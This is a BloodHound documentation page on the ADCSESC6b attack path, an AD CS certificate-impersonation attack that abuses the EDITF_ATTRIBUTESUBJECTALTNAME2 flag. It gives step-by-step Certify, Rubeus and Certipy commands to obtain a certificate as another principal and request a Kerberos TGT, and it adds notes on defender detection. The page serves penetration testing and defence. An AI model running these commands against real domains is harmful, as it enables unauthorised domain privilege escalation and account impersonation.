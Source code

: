 ---
title: ADCSESC6b
description: The principal has permission to enroll on one or more certificate templates allowing for authentication.
---


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



They also have enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. The enterprise CA is configured with the EDITF_ATTRIBUTESUBJECTALTNAME2 flag allowing enrollees to specify a Subject Alternate Name (SAN) identifying another principal during certificate enrollment of any published certificate template. This setup allows an attacker principal to obtain a malicious certificate as another principal. There is an affected Domain Controller configured to allow weak certificate mapping enforcement, which enables the attacker principal to authenticate with the malicious certificate and thereby impersonating any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify (2.0) to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```bash
Certify.exe request --ca rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA --template ESC6 --upn ForestRootDA
```

The certificate PFX is printed to the console in a base64-encoded format.

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: With Rubeus, use the certificate to authenticate to the domain and request a TGT, specifying the identity you intend to impersonate:

```bash
Rubeus asktgt /user:ForestRootDA /domain:forestroot.com /certificate:<cert base64> /ptt
```

Step 3 (optional): Verify the TGT by listing it with klist:

```bash
klist
```

### Linux

Step 1: Use Certipy to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC6 -upn administrator@corp.local
```
If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 1 and the IP of a domain controller::

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* Certipy 4.0
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* Domain Escalation Edit Attributes
